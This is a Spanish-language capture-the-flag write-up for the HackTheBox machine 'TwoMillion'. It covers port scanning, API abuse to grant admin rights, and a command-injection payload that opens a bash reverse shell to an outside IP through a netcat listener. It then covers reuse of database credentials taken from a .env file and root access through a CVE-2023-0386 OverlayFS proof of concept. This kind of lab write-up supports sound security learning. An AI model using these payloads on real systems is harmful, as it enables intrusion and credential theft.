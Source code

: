 # TwoMillion – HackTheBox Write-up

## 📝 Descripción
TwoMillion fue una máquina Linux de dificultad **Medium**, lanzada en conmemoración de los **2 millones de usuarios** en HackTheBox.  
La explotación involucra enumeración de servicios, abuso de la API, command injection y escalada de privilegios mediante un CVE real de kernel (**OverlayFS – CVE-2023-0386**).

---

## 🔎 Enumeración

### Escaneo de puertos
```bash
nmap -p- --min-rate 10000 10.10.11.221
nmap -sCV -p22,80 10.10.11.221
```

Servicios encontrados:
- **22/tcp** → OpenSSH
- **80/tcp** → HTTP con redirección a `2million.htb`

### Resolviendo host
```bash
echo "10.10.11.221 2million.htb" | sudo tee -a /etc/hosts
```

---

## 🌐 Explotación Web

Al visitar `http://2million.htb` se encuentra un portal con sección **/invite**.  
Analizando `js/inviteapi.min.js` descubrimos la función `makeInviteCode()`.

#### Generando el código de invitación
```bash
curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate | jq -r '.data.data' | tr 'a-zA-Z' 'n-za-mN-ZA-M'

curl -s -X POST http://2million.htb/api/v1/invite/generate | jq -r '.data.code' | base64 -d
```

Con el código generado se completa el registro y login en el portal.

---

## 🔐 Escalada a Admin (API Abuse)

Enumerando endpoints de la API con la cookie de sesión (`PHPSESSID`):

```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=<ID>" | jq .
```

Se observa el endpoint vulnerable:
```
PUT /api/v1/admin/settings/update
```

Este permite modificar parámetros de usuario y establecer privilegios de administrador:

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update"   -H "Content-Type: application/json"   -H "Cookie: PHPSESSID=<ID>"   -d '{"email":"jc@htb.local","is_admin":1}'
```

---

## 💻 Command Injection → Shell (www-data)

Ya como admin, el endpoint:
```
POST /api/v1/admin/vpn/generate
```
es vulnerable a inyección en el campo `username`.

Listener:
```bash
nc -lvnp 9001
```

Payload:
```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate"   -H "Content-Type: application/json"   -H "Cookie: PHPSESSID=<ID>"   -d '{"username":"; bash -c \"bash -i >& /dev/tcp/10.10.14.6/9001 0>&1\"; #"}'
```

Shell obtenida como **www-data**.

---

## 🔑 User Flag

Dentro de `/var/www/html/.env` se encuentran credenciales de base de datos:

```
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Probadas por SSH:
```bash
ssh admin@2million.htb
```

Con ellas se accede como **admin** y se lee `user.txt`.

---

## ⚡ Root – CVE-2023-0386 (OverlayFS)

En `/var/mail/admin` aparece un correo advirtiendo sobre vulnerabilidades en **OverlayFS**.

Se transfiere el PoC del CVE-2023-0386, se compila y ejecuta:

```bash
gcc exp.c -o exp -lcap
./fuse ./ovlcap/lower ./gc &
./exp
```

Esto asigna `cap_setuid+ep` a `/bin/bash`.  
Verificación:
```bash
getcap /bin/bash
```

Shell como root:
```bash
bash -p
id
cat /root/root.txt
```

---

## 📌 Conclusión

TwoMillion es una máquina que refleja un flujo de ataque completo:
1. **Reconocimiento** y descubrimiento de endpoints ocultos.  
2. **Abuso de APIs REST** para elevar privilegios lógicos.  
3. **Command Injection** para ganar acceso al sistema.  
4. **Credential reuse** para pivotear a otro usuario.  
5. **Explotación de kernel (OverlayFS CVE-2023-0386)** para root.  

Un reto entretenido que combina pentesting web y explotación local, cerrando con una vulnerabilidad real de Linux.

---

✍️ *Write-up realizado por [Juan Cruz Castro](https://github.com/juanC200023)*
